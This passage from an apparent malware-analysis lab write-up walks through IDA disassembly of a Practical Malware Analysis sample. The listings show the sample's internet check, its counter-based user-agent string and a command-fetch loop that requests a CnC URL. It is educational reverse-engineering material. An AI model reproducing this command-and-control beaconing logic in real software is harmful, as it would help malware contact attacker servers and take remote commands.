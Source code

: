 ```
.text:0040102B no_internet:
.text:0040102B      push    offset aError11NoInter ; "Error 1.1: No Internet\n"
.text:00401030      call    printf
.text:00401035      add     esp, 4
.text:00401038      xor     eax, eax
```

The tricky part here is `printf` wasn't recognized as such by IDA, so it's easy to get lost down the rabbit hole (I dodged this one, yay).

## Downloading commands

In case an internet connection is detected, a counter is set to 0 and the sample starts to request commands from its CnC. Up to 0x5A0 requests can be sent to the CnC before exiting the loop:

```
.text:00401248      mov     [ebp+ua_index], 0
.text:0040124F      jmp     short request_command
[...]
.text:0040125A request_command:
.text:0040125A      cmp     [ebp+ua_index], 5A0h
.text:00401261      jge     short exit_loop
.text:00401263      mov     ecx, [ebp+ua_index]
.text:00401266      push    ecx
.text:00401267      call    NETWORK__ReceiveCommandFromHTML
```

In addition, this counter is used to build the user-agent string:

```
.text:00401049      mov     eax, [ebp+ua_index]
.text:0040104C      push    eax
.text:0040104D      push    offset aInternetExplor ; "Internet Explorer 7.50/pma%d"
.text:00401052      lea     ecx, [ebp+szAgent]
.text:00401055      push    ecx             ; char *
.text:00401056      call    _sprintf
```

The sample then requests the URL `http://www.practicalmalwareanalysis.com/cc.htm`:

```
.text:00401073      push    0               ; dwContext
.text:00401075      push    0               ; dwFlags
.text:00401077      push    0               ; dwHeadersLength
.text:00401079      push    0               ; lpszHeaders
.text:0040107B      push    offset szUrl    ; "http://www.practicalmalwareanalysis.com/cc.htm"
.text:00401080      mov     eax, [ebp+hInternet]
.text:00401083      push    eax             ; hInternet
.text:00401084      call    ds:InternetOpenUrlA
.text:0040108A      mov     [ebp+hFile], eax
.text:0040108D      cmp     [ebp+hFile], 0
.text:00401091      jnz     short openurl_success
```

If the requested resource is available, its content is read in a 0x200 bytes buffer:
